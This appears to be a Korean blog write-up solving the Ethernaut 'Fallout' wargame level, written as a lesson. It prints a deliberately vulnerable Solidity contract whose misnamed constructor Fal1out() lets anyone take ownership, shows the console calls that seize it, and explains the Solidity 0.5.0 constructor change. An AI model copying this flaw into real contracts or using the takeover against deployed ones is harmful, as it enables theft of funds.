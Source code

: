 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 2) Fallout  
date: '2022-01-02 11:10:00'
author: 한성원
tags: ethernaut Fallout vulnerability
categories: 취약점분석
---
```



# 👋 1. Fallout
__Difficulty 2/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract의 ownership을 뺐어오기

- - -

## 코드 분석
사실 fallout에서는 코드를 분석 할 필요가 없다.
한번 코드를 읽어보고 밑으로!!
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
- - -

## 풀이
우리의 문제는 __"contract의 ownership을 뺐어오기"__ 이다.

Contract를 자세히 보면 constructor에 오타가 있는 것으로 보인다.
그렇게되면 우리는 Fal1out()을 call함으로써 ownership을 가져올 수 있다

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
//오타가 있는 Fal1out()을 call한다.
await contract.Fal1out()
//contract의 owner address를 확인한다.
await contract.owner()
//나의 address를 확인한다.
player
//play(나)이 owner가 된 것을 확인 할 수 있다.
```
완료 후 Submit instance를 누르고 조금 기다리면 block이 mine되고,
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

## 부가설명
원래 constructor는 아래와 같이 contract의 이름과 동일하게 사용했다.
```solidity
contract A {
  function A() public  {
  }
```
하지만 Solidity v0.5.0에서 constructor는 'constructor' 키워드를 사용해야하는 것으로 바뀌었다. 

- - -
## 마무리
나는 처음에 Fal1out()에서 오타를 발견하고 사람이니깐 실수 할 수 있지... 하며 넘겼다. ~~constructor라고도 친절히 써주셔서 당연히 오타인줄^^~~` 그래서 다른 function들을 분석해보며 어떻게 ownership을 가져올 수 있을까하며 10분 이상을 보낸 것 같다ㅋㅋ 그러다 문득 설마 저게 오타가 아닐까?하고 바로 console창에 Fal1out()을 call 했다. 근데 아니나다를까 바로 해결 되버렸다ㅠㅠ
아마 이번 문제에서는 오타 하나가 smart contract를 불안전하게 만들 수 있다는 교훈을 주는 것 같다. 문제를 풀면 실제 오타로 인해 일어났던 사고의 예시를 보여주니 확인해자! 그리고 절대 오타를 만들지 말자!!


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- Solidity v0.5.0 Breaking Changes: https://docs.soliditylang.org/en/v0.8.10/050-breaking-changes.html#deprecated-elements
```toc

```